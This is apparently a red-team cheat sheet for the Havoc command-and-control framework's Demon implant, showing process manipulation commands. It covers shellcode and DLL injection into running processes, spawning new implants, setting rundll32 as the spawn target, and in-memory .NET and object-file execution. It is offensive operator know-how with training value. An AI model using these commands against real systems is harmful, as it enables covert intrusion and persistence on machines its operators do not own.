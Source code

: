 # 04 - Process Manipulation

Search Tag(s): #havoc #command-and-control #interactive-shell

## 4.1 - Help Menu

```
Demon » help proc

 - Command       :  proc
 - Description   :  process enumeration and management
 - Usage         :  proc [command]
 - Example       :  proc list

  Command                        Description
  ---------                      -------------
  list                           displays a list of running processes on the target
  kill                           kills the process from specified PID
  blockdll                       block non microsoft signed dlls
  create                         create a process
  modules                        lists loaded modules/dlls from a remote process
  grep                           grep information from the specified remote process
  memory                         query for memory regions
  find-module                    query for processes with specified loaded module
```

## 4.2 - Create Process

```
Demon » proc create notepad.exe

Demon » proc create taskmgr.exe
```

## 4.3 - Terminate Process

```
Demon » proc kill <pid>
```

## 4.4 - Inject Process

### 4.4.1 - Shellcode

Inject shellcode through a process identifier.

```
Demon » shellcode inject <x64 | x86> <pid> /path/to/shellcode.bin
```

Inject shellcode to spawn a new implant.

```
Demon » shellcode spawn <x64 | x86> /path/to/shellcode.bin
```

### 4.4.2 - Configure Spawn Process

Configure a path to spawn new process when executing commands through the demon agent.

```
Demon » config inject.spawn64 C:\Windows\System32\rundll32.exe

Demon » config inject.spawn32 C:\Windows\System32\rundll32.exe
```

### 4.4.3 - Spawn DLL

Inject DLL file through a process identifier.

```
Demon » dll inject <pid> /path/to/local/file.dll [arguments]
```

Inject DLL file to spawn a new implant.

```
Demon » dll spawn /path/to/local/file.dll [arguments]
```

### 4.4.4 - DotNET CLR Assembly

List dotnet versions in a current system.

```
Demon » dotnet list-versions
```

Execute .NET files through memory in the current process.

```
Demon » dotnet inline-execute /path/to/local/dotnet_file.exe [arguments]
```

### 4.4.5 - Object File

Execute object file through memory in the current process.

```
Demon » inline-execute /path/to/objectfile.o [arguments]
```
